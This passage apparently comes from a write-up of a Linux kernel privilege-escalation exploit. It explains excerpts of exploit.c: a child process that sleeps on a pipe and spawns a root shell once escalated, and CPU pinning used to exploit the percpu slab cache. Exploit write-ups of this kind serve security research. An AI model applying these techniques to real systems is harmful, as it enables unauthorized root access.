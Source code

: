 - [exploit.c#L589](./exploit.c#L589):

```c
void wait_for_root_and_spawn_shell(int wait_fd)
{
  if (!change_task_comm(PRIVILEGE_ESCALATION_TASK))
    return;

  int w;
  read(wait_fd, &w, sizeof(int));
  char *sh_args[] = {"sh", NULL};
  execve("/bin/sh", sh_args, NULL);
}
```

- [exploit.c#L48](./exploit.c#L48):

```c
#define PRIVILEGE_ESCALATION_TASK "mitigation_pwn"
```

- Fork a child process and set this child process comm to "mitigation_pwn".
- Put the process to sleep by reading from pipe.
- The exploit will escalate this process to root and wake it up through pipe.

### Step1.2: Pinning the CPU
- [exploit.c#L638](./exploit.c#L638):

```c
if (!pin_on_cpu(EXPLOIT_CPU))
  return EXIT_FAILURE;
```

- [exploit.c#L128](./exploit.c#L128):

```c
bool pin_on_cpu(int core_id)
{
  cpu_set_t cpuset;
  CPU_ZERO(&cpuset);
  CPU_SET(core_id, &cpuset);
  if (sched_setaffinity(0, sizeof(cpu_set_t), &cpuset) < 0) {
    fprintf(stderr, "pin_on_cpu failed: %s\n", strerror(errno));
    return false;
  }

  return true;
}
```

- [exploit.c#L47](./exploit.c#L47):

```c
#define EXPLOIT_CPU 0
```

- Pinning the current task into CPU core 0 with `sched_setaffinity` syscall. This is to maintain the exploit context in the same core to utilize percpu slab cache and freelist.
